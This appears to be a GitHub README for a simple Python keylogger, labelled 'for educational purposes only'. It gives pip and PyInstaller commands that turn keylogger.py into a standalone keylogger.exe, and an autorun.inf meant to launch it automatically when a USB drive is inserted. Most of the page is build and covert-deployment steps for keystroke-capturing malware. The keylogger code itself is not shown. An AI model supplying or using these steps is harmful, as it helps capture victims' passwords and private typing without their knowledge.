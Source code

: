# A Simple Key-Logger using Python
**⚠️ WARNING: FOR EDUCATIONAL PURPOSES ONLY! ⚠️** 
 
## Prepare your environment
```
pip install pynput

```
## Package the script as an Executable
```
 pip install pyinstaller
 pyinstaller --onefile keylogger.py
```
&nbsp;
## To make the program run automatically when the USB is inserted

- Create an `autorun.inf` file to make the program run automatically when the USB is inserted (on older versions of Windows).  
  **Note:** Newer systems often disable autorun for security reasons.

```
[autorun]
open=keylogger.exe
action=Run Keylogger
icon=icon.ico
```
&nbsp;
+ This will generate a (keylogger.exe).
+ Make sure to run these command in your VS code Terminal.
+ Once you ran these commands in your terminal it will generate a (keylogger.exe) inside your dist file.
+ You need to copy only that (keylogger.exe) in to your USB and once the USB plugged in, you need to open the (keylogger.exe) manually.
+ This doesn't work on Windows 11 when the USB plugged in because of the Windows Saftey
